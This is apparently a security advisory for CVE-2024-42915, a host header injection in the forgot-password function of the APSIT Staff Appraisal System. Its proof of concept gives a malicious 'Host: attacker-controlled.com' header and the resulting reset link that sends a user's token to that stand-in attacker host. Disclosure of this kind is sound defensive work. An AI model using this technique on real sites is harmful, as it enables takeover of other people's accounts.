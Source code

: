 # CVE-2024-42915: Host Header Injection in Forgot Password of APSIT Staff Appraisal System

A host header injection vulnerability exists in the forgot password functionality of APSIT Staff Appraisal System. By sending a specially crafted host header in the forgot password request, it is possible to send password reset links to users which, once clicked, lead to an attacker-controlled server and thus leak the password reset token. This may allow an attacker to reset other users' passwords.

PoC: 

- We trigger the forgot password functionality for an existing user, such as `staff1@email.com`, and provide a malicious host header: `Host: attacker-controlled.com`.
- This sends a password reset email to `staff1@email.com` that contains the following:
```
You are receiving this because you (or someone else) have requested the reset of the password for your account.
Please click on the following link, or paste this into your browser to complete the process:
http://attacker-controlled.com/forgot/reset/faculty/<token> 
If you did not request this, please ignore this email and your password will remain unchanged.
```
- Note the host being `attacker-controlled.com`.
- When `staff1` clicks the link and attempts to use the password reset token, the token is leaked to the attacker which would allow resetting `staff1's` password and taking over his account.

Discovered by Sourajeet Majumder, August 2024.

References :

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42915
- https://nvd.nist.gov/vuln/detail/CVE-2024-42915
